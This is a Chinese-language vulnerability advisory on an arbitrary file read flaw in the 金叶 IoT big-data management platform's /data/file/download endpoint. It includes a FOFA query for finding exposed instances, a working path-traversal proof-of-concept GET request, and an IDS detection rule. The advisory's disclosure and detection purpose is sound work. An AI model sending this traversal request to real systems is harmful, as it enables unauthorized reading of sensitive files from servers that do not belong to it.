

# 金叶物联网大数据管理平台download存在任意文件读取漏洞

金叶物联网大数据管理平台download存在任意文件读取漏洞，攻击者可进行读取系统内任意敏感信息。

# 影响版本

**金叶物联网大数据管理平台**

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title="物联网大数据管理平台"

POC/EXP：

```
GET /data/file/download?name=../../../../../../windows/win.ini HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: gzip, deflate
Content-Type: application/json
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/148.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"金叶物联网大数据管理平台 - /data/file/download name 路径穿越任意文件读取";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/data/file/download";
        fast_pattern;
    http.uri;
        content:"name=";
    http.uri;
        content:"../"; nocase;
    http.uri;
        content:"win.ini"; nocase; distance:0;
    metadata:
        service http,
        affected_product "金叶物联网大数据管理平台",
        vulnerability_type "Path Traversal / Arbitrary File Read",
        severity "high";
    classtype:web-application-attack;
    sid:1000752;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
